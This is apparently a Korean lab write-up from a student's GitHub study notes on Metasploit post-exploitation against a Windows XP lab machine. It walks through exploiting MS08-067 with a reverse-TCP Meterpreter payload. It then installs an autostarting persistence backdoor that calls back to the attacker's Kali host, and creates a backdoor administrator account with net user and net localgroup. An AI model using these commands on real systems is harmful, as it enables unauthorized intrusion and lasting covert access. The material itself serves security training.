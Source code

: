 # 실습과정

### 1. Persistence
Meterpreter는 Persistence를 이용하여 시스템에 BackDoor를 남기고 지속적으로 드나들 수 있는 통로를 만들 수 있다.


일단 Kali에서 root의 권한으로 CMD창을 열고  
**msfconsole** 을 입력해 msfconsole을 실행한다.  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/Persistence/%EC%8B%A4%EC%8A%B51.png)

그 다음은 우리가 공격할 대상인 WindowXp의 취약점인 ms08-067을 통해 공격을 할 것이므로 이를 설정해 놓는다.  
**search ms08-067**  
**use exploit windows/smb/ms08_067_netapi**  
**set payload windows/meterpreter/reverse_tcp_allports**  
**show options**  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/Persistence/%EC%8B%A4%EC%8A%B52%20%EA%B8%B0%EB%B3%B8%20%EC%84%A4%EC%A0%95.png)

이후 나머지 RHOST와 LHOST를 설정한다.
**set RHOST (window XP IP)**  
**set LHOST (Kali IP)**  
**run**  
을 실행한다.
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/Persistence/%EC%B9%A8%ED%88%AC%20%EC%99%84%EB%A3%8C.png)  
이렇게하면 우리는 성공적으로 window Xp에 들어올 수 있게 된다.
그다음 우리는 우리의 목표인 Persistence를 얻기위해 다음의 작업을 진행한다.  
**run persistence -h**  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/Persistence/Persistence%EC%98%B5%EC%85%98%EC%97%90%20%EB%8C%80%ED%95%9C%20%EC%84%A4%EB%AA%85.png)  
위의 사진에서 보다 싶이 여러 옵션을 통해 persistence를 설정할 수 있다.
우리는 아래의 명령어를 통해 시스템이 부팅이 되면 자동적으로 실행, 연결 시도 간격을 10초로 설정해서 persistence를 작업한다.  
**run persistence -A -P windows/meterpreter/reverse_tcp_allports -X -i 10 -p 5555 -r (Kali IP)**  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/Persistence/Persistence%EC%98%B5%EC%85%98%20%EC%84%A4%EC%A0%95.png)  
설정이 완료되었다면 다음과 같은 형상이 나타나게 된다.
결과를 보면 첫번째 [+]를 보면 공격대상에 해당경로에 Persistence Script(Back Door)가 쓰여있는 것을 볼 수 있다.

그렇다면 우리는 Window Xp에서 해당 파일이 있는지 확인해보면 다음과 같다.
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/Persistence/Window%EC%97%90%20Script%ED%8C%8C%EC%9D%BC%20%EC%83%9D%EC%84%B1.png)  
실제 Window Xp의 C:\WINDOWS\TEMP의 경로에 해당파일이 생성되어있는 것을 알 수 있었다.

그리고 handler가 싷행되었고 마지막 [+]를 보면 BacckDoor가 자동적으로 실행시키기 위한 install key가 생성되었다고 나와있다.
이는 우리가 옵션으로 생성한 결과이므로 이를 Window Xp의 실제 register에서 보면 다음과 같은 결과를 볼 수 있다.
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/Persistence/BackDoor%EB%A5%BC%20%EC%9C%84%ED%95%9C%20install%20key.png)  다음과 같은 파일이 설정되고 있는 것을 볼 수 있다.
또한 Kali에서 session이 맺어진것으로도 확인할 수 있다.
이 세션은 Window Xp가 종료되면 자동적으로 사라지고 실행되면 자동적으로 맺어진다.
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/Persistence/Window%20Xp%EC%A2%85%EB%A3%8C%EC%8B%9C%20%EC%84%B8%EC%85%98%EC%83%81%ED%83%9C.png)  

### 2. BackDoor 계정만들기
이제 우리는 BackDoor를 할 수 있는 계정을 만든다음에 관리자의 권한을 부여해보는 연습을 해볼 것이다.
WindowXp에서 공격을 수행하고 난 이후의 시점부터 볼 것이다.  
다음의 명령어를 통해 미터프리터 세션을 열고 shell을 열어준다.  
**shell**
**net user (원하는 이름) (원하는 비밀번호) /add**  
**net user**  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/BackDoor%20%EA%B3%84%EC%A0%95%EB%A7%8C%EB%93%A4%EA%B8%B0/backDoor%20%EA%B3%84%EC%A0%95%EC%83%9D%EC%84%B1.png)  
을 생성하고 이를 window Xp에서 보면 다음과 같은 결과가 나타나게 된다.  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/BackDoor%20%EA%B3%84%EC%A0%95%EB%A7%8C%EB%93%A4%EA%B8%B0/Window%EC%97%90%EC%84%9C%20%ED%99%95%EC%9D%B8.png)  
또는 Kali에서 **net user** 명령어를 통해 확인이 가능하다.  

그러나 사진에서 보다싶이 제한된 권한을 가지고 있다.  
이를 adminstorator의 권한으로 올려주기 위해 다음과 같은 작업을 한다.
**net localgroup administrators (계정이름) /add**  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/BackDoor%20%EA%B3%84%EC%A0%95%EB%A7%8C%EB%93%A4%EA%B8%B0/backDoor%20%EA%B3%84%EC%A0%95%20%EA%B6%8C%ED%95%9C%EC%83%81%EC%8A%B9.png)  
를 하고 다시 window에서 보면 다음과 같은 결과가 나타날 것이다.  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/BackDoor%20%EA%B3%84%EC%A0%95%EB%A7%8C%EB%93%A4%EA%B8%B0/Window%EC%97%90%EC%84%9C%20%EA%B6%8C%ED%95%9C%EC%83%81%EC%8A%B9%ED%99%95%EC%9D%B8.png)  

만약 계정을 삭제하고 싶다면 다음의 명령어를 이용한다.
**net user (계정이름) (계정 비밀번호) /delete**  

**exit**  
**getsystem**  
**getuid**
이 명령어를 통해 시스템 권한과 권한이 얻어진것을 확인을 하고
다음의 명령어를 통해 시스템을 재부팅해본다.
**ps**  
**migrate (explorer.exe 필자는 492)**  
**reboot**  
를 하면 windowXp가 정상적으로 재부팅이 되는 것을 볼 수 있다.
이후 시스템을 종료하고 다시 window에서 로그인화면을 보면 2가지의 계정이 생겼을 겻이다.  

![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/BackDoor%20%EA%B3%84%EC%A0%95%EB%A7%8C%EB%93%A4%EA%B8%B0/window%20%EC%A2%85%EB%A3%8C.png)  


